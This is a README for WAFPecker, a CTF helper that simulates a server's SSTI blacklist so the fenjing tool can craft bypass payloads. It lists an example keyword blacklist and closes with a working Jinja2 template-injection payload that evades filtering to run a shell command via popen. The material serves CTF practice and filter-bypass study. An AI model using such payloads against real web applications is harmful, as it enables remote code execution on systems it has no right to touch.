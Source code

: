 # WAFPecker

### Introduction

- `A tool for bypassing SSTI-WAF used in CTF in conjunction with fenjing.`

- SSTI vulnerability is a common problem in the Web direction of CTF, in many cases we can get the source code, so as to obtain the WAF blacklist information, this time we need to bypass according to the blacklist, and fenjing can not be used directly at all times, he needs to judge whether the payload is valid according to the response. However, the topic is often designed to have no echo, at this time we need to modify the source code, add echo, and then use fenjing tools.

- WAFPecker is a project written to solve this kind of situation. By directly entering a Blacklist, you can simulate the testable environment of fenjing, and cooperate with fenjing to generate a valid payload in the fastest way. Hope that this tool can give your some help.
- Good Luck for you! Have fun in your CTF game! 

![image-20241221222735707](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412212227926.png)

### Usage

#### Project Structure

```/your_project_directory
/WAFPecker    
    app.py       //run this file to use this tool
    __init__.py
    views.py
    waf.py   //POST,you can also change to GET
    blacklist.txt   //write your WAF blacklist in  this file.
    requirement.txt 
```

#### Detailed Usage Steps

- `Open the blacklist.txt file, write your WAF blacklist in it like the example below.`

  ```
  ["os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\','compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"]
  ```

- `Then run the app.py` 

  ![image-20241221223751030](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412212237301.png)

- `Open http://127.0.0.1:5000`

  ![image-20241221224045869](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412212240089.png)

  #### In conjunction with fenjing

- `Run 'fenjing webui' in your teminal.`

![image-20241221223237433](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412212232566.png)

- `At last , We can optain the payload that can bypass the WAF.`

```
{%set iq='so'[::-1]%}{{cycler.next['__g''lobals__']['_''_builtins__'].__import__(iq).popen('ls').read()}}
```


